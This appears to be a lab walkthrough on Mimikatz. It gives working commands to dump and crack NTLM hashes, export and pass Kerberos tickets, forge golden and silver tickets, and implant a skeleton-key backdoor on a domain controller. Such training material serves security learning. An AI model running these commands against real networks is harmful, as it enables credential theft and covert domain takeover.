










mimikatz
Mimikatz
Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network
We'll be focusing on dumping the NTLM hashes with mimikatz and then cracking those hashes using hashcat
Starting and setting up

Dumping
lsadump::lsa /patch : Dump those hashes!

Crack those hashes with hashcat
We get the hashes into a file and crack it.

hashcat -m 1000 <hash> rockyou.txt
Output
2777b7fec870e04dda00cd7260f7bee6:P@$$W0rd
Mimikatz For Dumping Tickets
You will need to run the command prompt as an administrator: use the same credentials as you did to get into the machine. If you don't have an elevated command prompt mimikatz will not work properly.
1.) cd Downloads - navigate to the directory mimikatz is in
2.) mimikatz.exe - run mimikatz
3.) privilege::debug - Ensure this outputs [Privilege '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz

4.) sekurlsa::tickets /export - this will export all of the .kirbi tickets into the directory that you are currently in
It Dumps the the tickets in same folder as the mimikatz application.

When looking for which ticket to impersonate I would recommend looking for an administrator ticket from the krbtgt.
Pass the Ticket with Mimikatz
Now that we have our ticket ready we can now perform a pass the ticket attack to gain domain admin privileges.
1.) kerberos::ptt <ticket> - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket
kerberos::ptt [0;4ac7d]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi

2.) klist - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
Golden/Silver Ticket Attack Overview
A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.
Dump the krbtgt hash
1.) cd downloads && mimikatz.exe - navigate to the directory mimikatz is in and run mimikatz
2.) privilege::debug - ensure this outputs [privilege '20' ok]
3.) lsadump::lsa /inject /name:krbtgt - This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.
Eg. (Silver)
lsadump::lsa /inject /name:SQLservice
lsadump::lsa /inject /name:Administrator

Create a Golden/Silver Ticket
1.) Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id: - This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.
Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500

Use the Golden/Silver Ticket to access other machines
1.) misc::cmd - this will open a new elevated command prompt with the given ticket in mimikatz.

2.) Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.


Important Note:
This attack will not work without other machines on the domain however I challenge you to configure this on your own network and try out these attacks.
Kerberos Backdoor with Mimikatz
Skeleton Key Overview
The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.
Preparing Mimikatz
1.) cd Downloads && mimikatz.exe - Navigate to the directory mimikatz is in and run mimikatz
2.) privilege::debug - This should be a standard for running mimikatz as mimikatz needs local administrator access
Installing the Skeleton Key w/ mimikatz
1.) misc::skeleton - Yes! that's it but don't underestimate this small command it is very powerful
Accessing the forest
The default credentials will be: "mimikatz"
example: net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz - The share will now be accessible without the need for the Administrators password
example: dir \\Desktop-1\c$ /user:Machine1 mimikatz - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1
The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.